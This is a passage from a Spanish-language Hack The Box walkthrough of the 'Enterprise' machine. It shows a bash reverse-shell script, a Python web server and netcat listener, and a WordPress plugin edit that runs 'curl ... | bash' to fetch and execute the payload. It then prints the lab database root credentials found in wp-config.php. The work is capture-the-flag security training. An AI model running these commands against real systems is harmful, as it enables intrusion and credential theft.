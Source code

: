 Listo, confirmamos ejecucion remota de comandos, ahora creemonos un archivo que contenga lo que queremos que ejecute el sistema, asi se nos hace más facil movernos entre comandos sin tener que modificar el plugin cada vez:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/4433 0>&1
```

Levantamos un servidor web con **Python**: 

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y nos ponemos en escucha con **netcat** en el puerto **4433**: `nc -lvp 4433`. 

Finalmente editamos el plugin:

```php
...
// need to make it secure

// Leera el contenido del archivo rev.sh y con "| bash" lo interpretara.
system("curl http://10.10.14.17:8000/rev.sh | bash");

?>
```

Simplemente hacemos una petición hacia el archivo y obtenemos nuestra reverse Shell:

![112bash_wwwdata_RevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112bash_wwwdata_RevSH.png)

Hagamos tratamiento de la TTY para asi poder hacer `CTRL+C` sin miedo a perder la terminal, además de poder movernos entre comandos y tener historial :)

* [**S4vitar** explica en este video como obtener una Shell completamente interactiva (tratamiento TTY)](https://www.youtube.com/watch?v=7L1WNU7fBec&t=5004s).

Listooooos, a enumerar...

...

### Reverse Shell www-data WordPress

En el directorio `/var/www/html` tenemos los objetos de **WordPress**, validando el contenido del archivo `wp-config.php` (el que hace la conexión con la base de datos), obtenemos las credenciales del usuario **root**, pero de la base de datos, ya jugamos con la base de datos asi que no es interesante, pero las credenciales si lo son, guardémoslas por si algo :)

```php
...
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'NCC-1701E');
...
```
